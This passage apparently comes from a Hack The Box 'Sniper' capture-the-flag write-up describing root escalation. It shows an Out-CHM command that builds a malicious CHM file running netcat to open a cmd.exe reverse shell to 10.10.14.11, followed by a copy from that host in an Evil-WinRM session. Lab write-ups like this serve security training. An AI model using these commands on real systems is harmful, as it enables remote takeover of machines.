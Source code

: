 After installing the HTML Help Workshop on my Windows machine, I generated a malicious CHM file that uses netcat to spawn a reverse shell:

`PS > Out-CHM -Payload "C:\programdata\nc.exe -e cmd.exe 10.10.14.11 3333" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"`

Uploaded it to the server...

`*Evil-WinRM* PS C:\docs> copy \\10.10.14.11\test\doc.chm .`

And boom, got a shell as `administrator`:

![](/assets/images/htb-writeup-sniper/root.png)